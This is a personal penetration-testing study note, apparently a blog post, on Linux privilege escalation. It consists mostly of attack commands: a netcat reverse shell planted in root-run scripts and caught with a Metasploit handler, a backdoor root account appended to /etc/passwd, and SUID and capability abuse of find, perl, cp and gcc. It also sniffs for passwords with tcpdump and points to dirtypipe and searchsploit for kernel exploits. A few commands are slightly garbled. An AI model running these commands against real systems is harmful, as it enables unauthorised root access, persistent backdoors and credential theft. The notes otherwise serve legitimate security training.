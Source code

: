 ```yaml
---
layout: post
title: Linux Auto Privilege Escalation
titledate: 09/17/23
tags: ["infosec", "info_gathering", "offsec", "privesc"]
---
```


#### automating enumeration

we can use the tool /usr/bin/unix-privesc-check on our box to look for system misconfiguration

we can try both standard and detailed mode - copy the script over the system and dump it to a file

    ./unix-privesc-check standard > output.txt

some other tools that can check linux systems are LinEnum and LinPeas

#### dirtypipe

    ./dirtypipe /home/john/RESET_PASSWD

check history and user env

    $ history

    $ env

    $ cat ~/.bashrc or .bash_profile or .zshrc or .zprofile etc

crunch is a quite powerful world list generator

try sudo su

    $ sudo -l

list privs

    $ sudo -i 

execute as root

we can observe running processes even if run as root 

    $ watch -n 1 "ps -aux | grep pass"

tcpdump can be useful in capturing any attempted network communication, in this example we try to look for the word pass

    $ sudo tcpdump -i lo -A | grep "pass"

we can inspect the cron log file /var/log/cron.log

    $ grep "CRON" /var/log/syslog

sometimes we can gain access to scripts that execute with higher privs and insert our own code like a shell 1liner 

if using kali to capture a linux nc connection can connect with something like 

our script 

    nc 192.168.1.1 4444 -e /bin/sh

then on our attacking machine

    msf > use/multi/handler
    set our options 
    set payload cmd/unix/reverse_netcat

passwords can be found in /etc/passwd or /etc/shadow but if found in /etc/passwd take priority

if we can write to /etc/passwd we can create a passwd for any user

we can generate a password

    $ openssl passwd pass

then add our new account to /etc/passwd

    $ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

then we can switch user to that account

    $ su root2

to change  user password 
    
    $ passwd

to get the pid of the passwd process

    $ ps u -C passwd

check the pid UID

    $ grep Uid /proc/(x)/status

if the passwd binary or any binary has the setUID flag or SUID set

    $ ls -asl /usr/bin/passwd

    s - will show the owner as root

in this example the find application has the suid set

    $ find /home/user/Desktop -exec "/usr/bin/bash" -p \;

so if we run it with the exec arg it will execute as root

we can run getcap to look for these binaries

    $ /usr/sbin/getcap -r / 2>/dev/null

https://gtfobins.github.io contains unix binaries that can exploit privesc vulns

for example, if our search above discloses perl as having capabilities setuid set we can search for perl on gtfobins

    $ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

and the above is an example of how it canbe used to execute a shell

this cmd can enumerate binaries with stuid flag set

### find / -xdev -user root \( -perm -4000 -o -perm -2000 \)

in this example i see the cp binary has the s flag set so gtfobins shows us we can utilize that to copy files from write protected locations like /root/... to our file

for the example i did

    $ TF=/root/flag.txt
    $ $ /usr/bin/cp $TF $LFILE

now we could apply something similar in this case to all files since cp will run with root privs

#### sudo misconfigurations

we can list the services we can run sudo with

    $ sudo -l

can approach attacks similar to the above with setuid

for example running the above command gives sudo privs for gcc

and gtfobins tells us

    $ sudo gcc -wrapper /bin/sh,-s .

examine the kernel and architecture

    $ uname -r
    $ arch

once we have a kernel version we can use searchsploit to try to identify known vulns

    $ searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"